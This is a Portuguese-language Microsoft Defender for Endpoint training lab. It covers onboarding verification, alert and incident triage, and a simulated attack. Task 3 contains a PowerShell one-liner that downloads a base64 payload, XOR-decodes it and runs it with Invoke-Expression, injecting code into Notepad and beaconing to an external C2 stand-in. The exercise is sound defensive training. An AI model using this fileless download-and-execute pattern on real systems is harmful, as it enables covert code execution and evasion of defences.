

---
lab:
  title: 'Exercício 2: mitigar os ataques com o Microsoft Defender para Ponto de Extremidade'
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---

# Roteiro de aprendizagem 2, Laboratório 1, Exercício 2: mitigar os ataques com o Microsoft Defender para Ponto de Extremidade

## Cenário do laboratório



Você é um analista de operações de segurança que trabalha em uma empresa que está implantando o Microsoft Defender para Ponto de Extremidade. Seu gerente planeja integrar alguns dispositivos para fornecer informações sobre as alterações necessárias nos procedimentos de resposta da equipe de Operações de segurança (SecOps).

Para explorar os recursos de mitigação de ataque do Defender para Ponto de Extremidade, você verificará a integração bem-sucedida do dispositivo e investigará alertas e incidentes criados durante esse processo.

### Tarefa 1: verificar integração de dispositivos

Nesta tarefa, você confirmará se o dispositivo foi integrado com êxito e criará um alerta de teste.

1. Se você ainda não estiver no portal do Microsoft Defender XDR em seu navegador Microsoft Edge, acesse (<https://security.microsoft.com> e faça logon como Administrador do seu locatário.

1. No menu à esquerda, na área **Ativos** , selecione **Dispositivos**. Aguarde até que WIN1 apareça na página Dispositivos antes de continuar. Caso contrário, talvez seja necessário repetir essa tarefa para ver os alertas que serão gerados posteriormente.

    >**Observação:** se você tiver concluído o processo de integração e não vir dispositivos na lista de dispositivos após uma hora, isso pode indicar um problema de integração ou de conectividade.

1. Na barra de menus esquerda do portal do Microsoft Defender XDR, expanda a seção **Sistema** e selecione **Configurações**e, na página *Configurações*, selecione **Pontos de Extremidade**.

1. Selecione **Integração** na seção Gerenciamento de dispositivo e verifique se *"Windows 10 e 11"* está selecionado como sistema operacional. A mensagem *"Primeiro dispositivo integrado"* agora mostra *Concluído*.

1. Role para baixo e, na seção *"2. Executar um teste de detecção"*, copie o script do teste de detecção selecionando o botão **Copiar**.  

1. Na barra de pesquisa do Windows da máquina virtual WIN1, digite **CMD** e escolha **Executar como Administrador** no painel direito do aplicativo Prompt de comando.

1. Quando a janela "Controle de conta de usuário" for exibida, selecione **Sim** para permitir que o aplicativo seja executado. 

1. Cole o script clicando com o botão direito do mouse na janela **Administrador: Prompt de comando** e pressione **Enter** para executá-lo.

    >**Observação:** A janela é fechada automaticamente depois de executar o script com êxito e, após alguns minutos, os alertas são gerados no portal do Microsoft Defender XDR.

### Tarefa 2: Investigar alertas e incidentes

Nesta tarefa, você investigará os alertas e incidentes gerados pelo script de teste de detecção de integração na tarefa anterior.

1. No portal do Microsoft Defender XDR, expanda **Investigação e resposta** da barra de menus à esquerda, expanda **Incidentes e alertas** e selecione **Alertas**.

    >**Observação:** Em versões atualizadas da página do portal do Microsoft Defender XDR, *Incidentes e alertas* são encontrados no cabeçalho do menu *Investigações e resposta*.

1. No painel **Alertas**, selecione o alerta chamado *[TestAlert] Linha de comando suspeita do PowerShell* para carregar os detalhes dele.

1. Examine a linha do tempo da *História do alerta* e examine as guias *Detalhes* e *Recomendações*.

    >**Observação:** Na guia *Detalhes* do alerta, você pode rolar para baixo até a seção *Detalhes do incidente* e selecionar o link *Incidente de execução em um ponto de extremidade* para abrir o incidente.

1. No portal do Microsoft Defender XDR, selecione **Incidentes e alertas** na barra de menus à esquerda e selecione **Incidentes**

1. Desmarque o filtro de *Severidade de alerta* selecionando o **X** à direita do filtro.

1. Um novo incidente chamado *[TestAlert] Linha de comando suspeita do PowerShell* aparece no painel direito. Selecione o nome do incidente para carregar seus detalhes.

1. Selecione o link **Gerenciar incidente** (com um ícone de lápis) e uma nova folha de janela será exibida.

1. Em **Marcas de incidente**, digite "Simulação" e selecione **Simulação (Criar)** para criar uma marca.

1. Selecione o botão de alternância **Atribuir a** e adicione sua conta de usuário (Eu) como proprietário do incidente.

1. Em **Classificação**, expanda o menu suspenso.

1. Em **Atividade esperada e informativa**, selecione **Teste de segurança**.

1. Selecione **Salvar** para atualizar o incidente e concluir.

1. Analise o conteúdo das guias *História de ataque, Alertas, Ativos, Investigações, Evidência e resposta* e *Resumo*. Os dispositivos e usuários se encontram na guia *Ativos*. Em um incidente real, a guia *História de ataque* exibe o *Grafo do incidente*. **Dica:** Algumas guias podem estar ocultas devido ao tamanho da exibição. Selecione a guia de reticências (...) para que elas apareçam.

### Tarefa 3 Simular um ataque

>**Aviso**: Esse ataque simulado é uma excelente fonte de aprendizado por meio da prática. Execute apenas os ataques nas instruções fornecidas para este laboratório ao usar o locatário do Azure fornecido pelo curso.  Você pode executar outros ataques simulados *após* este curso de treinamento ser concluído com esse locatário.

Nesta tarefa, você simulará um ataque à máquina virtual WIN1 e verificará se o ataque foi detectado e mitigado pelo Microsoft Defender para Ponto de Extremidade.

1. Na máquina virtual WIN1, *clique com o botão direito do mouse* o botão **Iniciar** e escolha **Windows PowerShell (Administrador)**.

1. Quando a janela "Controle de conta de usuário" for exibida, selecione **Sim** para permitir que o aplicativo seja executado.

1. Copie e cole o script de simulação a seguir na janela do PowerShell e pressione **Enter** para executá-lo:

    ```PowerShell
    [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
    ;$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
    $base64String = (Invoke-WebRequest -URI "https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt" -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
    $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
    ```

    >**Observação:** Se ocorrerem erros (em vermelho) durante a execução do script, abra o aplicativo Bloco de Notas e copie o script em um arquivo em branco. Certifique-se de que a *quebra automática de linha* esteja ativada no Bloco de Notas. Então, copie e execute cada linha do script separadamente no PowerShell. Além disso, um script do PowerShell (attacksim.ps1) foi fornecido nos arquivos baixados no início dos laboratórios. Para usar o script, no **Windows PowerShell (Administrador)** navegue até a pasta *\Users\Admin\Desktop*, digite *.\attacksim.ps1* e pressione **Enter** para executá-lo.

1. O script produzirá várias linhas de saída e uma mensagem informando que ele *Falhou ao resolver controladores de domínio no domínio*. Alguns segundos depois, o aplicativo *Bloco de Notas* será aberto. Um código de ataque simulado será injetado no Bloco de Notas. Mantenha a instância do Bloco de Notas gerada automaticamente aberta para experimentar o cenário completo. O código de ataque simulado tentará se comunicar com um endereço IP externo (simulando um servidor C2).

### Tarefa 4: Investigar o ataque simulado como um único incidente

1. No portal do Microsoft Defender XDR, expanda **Investigação e resposta** da barra de menus à esquerda, expanda **Incidentes e alertas** e selecione **Incidentes**.

    >**Observação:** Em versões atualizadas da página do portal do Microsoft Defender XDR, *Incidentes e alertas* são encontrados no cabeçalho do menu *Investigações e resposta*.

1. Um novo incidente chamado *Incidente de vários estágios envolvendo evasão de defesa e descoberta em um ponto de extremidade* está no painel direito. Selecione o nome do incidente para carregar seus detalhes.

    >**Observação:** Se você não vir o incidente, desmarque o filtro de *Severidade de alerta* selecionando o **X** à direita do filtro.

1. Na guia *Histórico do ataque*, recolha os painéis de **Alertas** e **Detalhes do incidente** para exibir o **Grafo de incidentes** completo.

1. Passe o mouse e selecione os **Nós do Grafo de incidentes** para revisar as *entidades*.

1. Expanda novamente o painel de **Alertas** (lado esquerdo) e selecione o ícone **Executar histórico de ataque** *Executar*. Isso mostra o alerta da linha do tempo de ataque por alerta e preenche dinamicamente o *Grafo de incidentes*.

1. Analise o conteúdo das guias *História de ataque, Alertas, Ativos, Investigações, Evidência e resposta* e *Resumo*. Os dispositivos e usuários se encontram na guia *Ativos*. **Dica:** Algumas guias podem estar ocultas devido ao tamanho da exibição. Selecione a guia de reticências (...) para que elas apareçam.

1. Na guia **Evidência e resposta**, selecione **Endereços IP**, em seguida, selecione o *Endereço IP*. Na janela pop-up, revise os detalhes do endereço IP, role para baixo e selecione o botão **Abrir página de endereço IP**.

1. Revise o conteúdo da página *Endereço IP*das guias *Visão geral, incidentes e alertas e Observados em organizações*. Algumas guias podem não conter informações para o endereço IP.

## Você concluiu o laboratório
